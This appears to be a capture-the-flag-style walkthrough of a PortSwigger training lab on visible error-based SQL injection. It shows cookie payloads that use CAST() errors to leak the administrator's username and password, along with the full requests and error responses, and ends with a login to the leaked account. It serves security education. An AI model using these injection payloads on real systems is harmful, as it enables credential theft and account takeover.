

# Visible error-based SQL injection

# Review

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

This shows the full query that the application constructed using our input. As a result, we can see the context that we're injecting into, that is, a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. In this case, we can see that commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a "visible" one.

One way of achieving this is to use the `CAST()` function, which enables you to convert one data type to another. For example, consider a query containing the following statement:

```
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query.

# Lab Instruction

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

# Lab Walkthrough

Access the lab and click on the `My Account` for shorter HTML-response capture for easier analyzing



The original request

```
GET /login HTTP/2
Host: 0a1300b5041ca6208092c6af00070046.web-security-academy.net
Cookie: TrackingId=6ZElStfg70FsBqDN; session=7cw0QpsCD8kX46AYGFKbWQhhGZeEJLQj
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a1300b5041ca6208092c6af00070046.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The original response

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3144

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Visible error-based SQL injection</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Visible error-based SQL injection</h2>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="cN5IWb8Gy2anCgWSPdDV05csMFEzN6Vo">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Modify the `TrackingId` value with appending a single quote `'`

```
Cookie: TrackingId=6ZElStfg70FsBqDN'; session=7cw0QpsCD8kX46AYGFKbWQhhGZeEJLQj
```

Send the request and verify that the error message appears like this:

```html
<p class=is-warning>
	Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '6ZElStfg70FsBqDN''. Expected  char
</p>
```

This error output help us to determine the full query that the application structured as

```sql
SELECT * FROM tracking WHERE id = '<value>'
```

Modify the request within adding a single quote `'` or double-dash `--` 

```
Cookie: TrackingId=6ZElStfg70FsBqDN''
```

```
Cookie: TrackingId=6ZElStfg70FsBqDN'--
```

Verify that the responses from 2 situations do not return any error message → The query is syntactically valid

Add the subquery `SELECT` with `CAST()` function to convert the returned value to `int` data type

```
Cookie: TrackingId=6ZElStfg70FsBqDN' AND CAST((SELECT 1) AS int)--
```

Observe that there is a different error in the returned response

```html
<p class=is-warning>
	ERROR: argument of AND must be type boolean, not type integer Position: 63
</p>
```

It said the argument after the `AND` operator must be the boolean type (for example `1=1` or `1=2`) which would return the value `TRUE` or `FALSE` → Insert a conditional statement before the `CAST()` function to convert the returned value from `int` to `boolean`

```html
Cookie: TrackingId=6ZElStfg70FsBqDN' AND CAST((SELECT 1) AS int)=1--
```

Verify that error message disappears

************NOTE!!************

In cases, when the `TrackingId` or other argument has longer length → It could cause a character limit error such as:

```html
<p class=is-warning>
	Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '6ZElStfg70FsBqDN' AND 999999999999999999=CAST((SELECT 1) AS '. Expected  char
</p>
```

Notice that the displayed query in the error message is truncated which means the application does not read through the whole query statement

⇒ To avoid this, delete the previous `TrackingId` or any argument that take the most places in the query. For example:

```
Cookie: TrackingId=' AND 999999999999999999=CAST((SELECT 1) AS int)--
```

Back to the lab!

Adapt the `SELECT` statement so that it could retrieve the username from the database:

```
Cookie: TrackingId=' AND CAST((SELECT username FROM users) AS int)=1--
```

Another error message returns:

```html
<p class=is-warning>
	ERROR: more than one row returned by a subquery used as an expression
</p>
```

`more than one row returned by subquery` → Verify that the query is currently valid and is not truncated anymore but the returned value is more than 1 (row) → There is no place to display the data

Modify the request to limit the returned row:

```
Cookie: TrackingId=' AND CAST((SELECT username FROM users LIMIT 1) AS int)=1--
```

Observe that the error message now leaks the first username from `users` table

```html
<p class=is-warning>
	ERROR: invalid input syntax for type integer: "administrator"
</p>
```

Notice that the `WHERE` statement could have the same returned value with the above but it would cause the character limit error

```
TrackingId=' AND CAST((SELECT username FROM users WHERE username="administrator") AS int)=1--
```

```html
<p class=is-warning>
	Unterminated identifier started at position 89 in SQL SELECT * FROM tracking WHERE id = '' AND CAST((SELECT username FROM users WHERE username="admin'. Expected " char
</p>
```

Change the `SELECT` statement which retrieve the username to retrieve the password

```html
Cookie: TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS int)=1--
```

Verify that the returned error leaks the password of the user `administrator`

```html
<p class=is-warning>
	ERROR: invalid input syntax for type integer: "6qhdm3vqswxq32vy7q29"
</p>
```

Use the password to login as `administrator` and solve the lab